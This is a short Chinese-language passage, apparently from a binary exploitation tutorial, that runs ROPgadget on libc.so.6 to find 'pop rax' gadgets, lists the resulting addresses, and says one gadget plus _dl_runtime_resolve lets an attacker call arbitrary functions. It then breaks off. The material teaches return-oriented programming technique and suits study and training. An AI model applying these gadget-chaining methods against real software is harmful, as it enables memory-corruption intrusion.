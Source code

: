 所以我们接下来**用ROPgadget查找一下libc.so中控制rax的gadget**：
    
> ROPgadget --binary libc.so.6 --only "pop|ret" | grep "rax"

```assembly
0x000000000001f076 : pop rax ; pop rbx ; pop rbp ; ret
0x0000000000023950 : pop rax ; ret
0x000000000019176e : pop rax ; ret 0xffed
0x0000000000123504 : pop rax ; ret 0xfff0
```

0x0000000000023950刚好符合我们的要求。有了pop rax和_dl_ runtime_ resolve这两个gadgets，我们就可以很轻松的调用想要的调用的函数了。

未完待续！！！

参考链接：http://www.vuln.cn/6643



